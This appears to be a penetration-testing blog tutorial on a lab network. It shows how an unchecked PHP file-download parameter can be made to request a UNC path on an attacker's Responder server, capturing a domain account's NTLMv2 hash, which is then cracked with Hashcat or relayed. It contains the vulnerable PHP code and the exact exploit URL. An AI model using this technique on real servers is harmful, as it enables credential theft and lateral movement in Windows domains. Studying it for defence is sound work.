This blog post is demonstration of  "Abuse of File download vulnerability to steal NTLMv2 Hashes".

In this scenario, web application is hosted on a machine which is part of Windows Active directory domain and allows user to download file without checking its path.
Attacker can take advantage of file download vulnerability to trigger request to attacker controlled server which is having "Responder" tool running on it to steal the NTLMv2 hash from the server. Responder tool "SMB auth server" will force target server to handover the NTLMv2 hash, later that NTLMv2 hash can be used to: 
1. perform relay against any windows machine having "SMB Signing Disabled" or attacker can try to 
2. crack them using hash cracking tools like Hashcat

Let's start with the web application which is having file download vulnerability and making SMB request to download file from the remote host.

Vulnerable PHP script is
http://192.168.56.200:8080/file.php?file=any_file.txt

and PHP code is 
```
<?php 


function file_download($download)
{
	if(file_exists($download))
		{
		header("Content-Description: File Transfer"); 
		header('Content-Transfer-Encoding: binary');
		header('Expires: 0');
		header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
		header('Pragma: public');
		header('Accept-Ranges: bytes');
		header('Content-Disposition: attachment; filename="'.basename($download).'"'); 
		header('Content-Length: ' . filesize($download));
		header('Content-Type: application/octet-stream'); 
		ob_clean();
		flush();
		readfile ($download);
		}
	else
		{
		echo "<script>alert('file not found');</script>";	
		}
	
}
$file_name=trim($_GET['file']);
file_download($file_name);

?>
```
PHP script will perform file download if we specify any file and it exists on the system.
Script is considering relative as well full path, so we will take advantage of this behavior and will make SMB request to the server which is having Responder tool running on it.

Let's assume, actual request which allow user to download file is

http://192.168.56.200:8080/file.php?file=box.html

![](https://4.bp.blogspot.com/-Ipvjcdl28NQ/XBVP13vYXjI/AAAAAAAAB_c/jsO9Mke1Zd4rpmnuhKg9etnVWHmLf_1FACEwYBhgL/s1600/1.png)

My server where Responder is running is having IP - 192.168.56.102
![](https://2.bp.blogspot.com/-c7EmqKlYc6U/XBVP0XNUVjI/AAAAAAAAB_Y/EPIXF0NqiQo5A-TXa7o69-8E-cd7ZZSSgCLcBGAs/s1600/2.png)

Now, make SMB request to Responder using vulnerable parameter and it should be like

http://target_web_server/vulnerable_script.php?parameter=\\Responder_server_IP\any_file.txt

Here, target_web_server is 192.168.56.200:8080
vulnerable_script.php is file.php with parameter "file" and Responder_server_IP is  192.168.56.102
Final URL is
 http://192.168.56.200:8080/file.php?file=\\192.168.56.102\box.html

If everything goes fine, Responder will capture the NTLMv2 hashes of target server.

![](https://1.bp.blogspot.com/-kyfjP_ZTELo/XBVYw2PhlnI/AAAAAAAACAE/zooukxjPfHQ1o0i8_Vii5G5GU-LPOcpUgCLcBGAs/s1600/3.png)

Above screenshot is showing that Responder captured the hash from target server and target web server is running with the privilege of Windows Active Directory user having username "user3".
Now, one can try to crack this captured hash to get the plain text password."Hashcat" is awesome tool to perform fastest hashcracking. It support CPU/GPU hash cracking and has support for multiple hash formats. Hahcat official download website is: - https://hashcat.net/hashcat/ Download good password dictionary, here is one https://hashkiller.co.uk/downloads.aspx Run the hashcat and wait if luck is on our side. 
![](https://4.bp.blogspot.com/-nOixVrKFjFo/XBVV2ZjHKzI/AAAAAAAAB_4/DSEFhHDhg-kQphMYFsS0MAfaD8xt2hCpwCLcBGAs/s1600/4.png)

Hashcat got the plain text password of the NTLMv2 hash captured by Responder.
Now we can play around the Windows Active Directory little bit more as we have credential of one Domain User.  

That's all from my side.


Thanks for reading.

Special thanks to Sean Metcalf, OJ, Vincent Yiu, Andrew Robbins, will, Benjamin Delpy, Marcello, Andrew van der Stock, g0tmi1k, Alvaro Muñoz, b33f, pancake, m3g9tr0n,  Anurag Srivastava, vivek chauhan, Spirited wolf

--==[[ Greetz To ]]==--

	Guru ji zero ,code breaker ica, root_devil, google_warrior,INX_r0ot,Darkwolf indishell,Baba,
	Silent poison India,Magnum sniper,ethicalnoob Indishell,Reborn India,L0rd Crus4d3r,cool toad,
	Hackuin,Alicks,mike waals,cyber gladiator,Cyber Ace,Golden boy INDIA,d3, rafay baloch, nag256
	Ketan Singh,AR AR,saad abbasi,Minhal Mehdi ,Raj bhai ji ,Hacking queen,lovetherisk,Bikash Dash

--==[[Love to]]==--

	My Father ,my Ex Teacher,cold fire hacker,Mannu, ViKi ,Ashu bhai ji,Soldier Of God, Bhuppi,Gujjar PCP
	Mohit,Ffe,Ashish,Shardhanand,Budhaoo,Jagriti,Salty, Hacker fantastic, Jennifer Arcuri and Don(Deepika kaushik)
 
 

                             
